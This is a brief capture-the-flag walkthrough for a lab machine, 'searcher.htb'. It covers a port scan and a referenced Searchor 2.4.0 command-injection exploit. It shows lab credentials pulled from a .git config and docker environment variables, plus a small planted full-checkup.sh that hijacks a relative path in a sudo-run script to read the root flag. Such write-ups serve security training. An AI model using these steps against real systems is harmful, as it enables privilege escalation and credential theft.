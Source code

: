 #cve #gitea #dynamic-path #password-reuse

# nmap 
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 20:56 CST
Nmap scan report for 10.129.255.151
Host is up (0.0023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.19 seconds

```


# searcher.htb uses searchor v2.4.0 which has an RCE vulnerability
source https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

# Got a shell, found a credentials on the .git directory
```
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git

```

# The svc user has the same password as cody, I checked the sudo privileges of the user, found it can run system-checkup python script on the /opts directory

# the script allows us to use docker ps and inspect commands 
```shell
gitea:yuiu1hoiu4i5ho1uh
# mysql credentials found

["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea"]
# mysql_db container environment variables
```


# in the gitea repository of the administrator user, the "system-checkup.py" script is present, and the full-checkup action on the script executes a script named "full-checkup.sh" script using a dynamic path


```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output

```

# since the script does not have a specific path, it executes a script that has the same name on any directory, 


# so I created a script on my current working directory named full-checkup.sh in the /tmp directory

# the script copies the root flag to the /tmp directory then modifies privileges, got root flag

```shell

vi full-checkup.sh

#!/bin/bash
cp /root/root.txt /tmp/root.txt
chmod 777 /tmp/root.txt
```



completed by following a writeup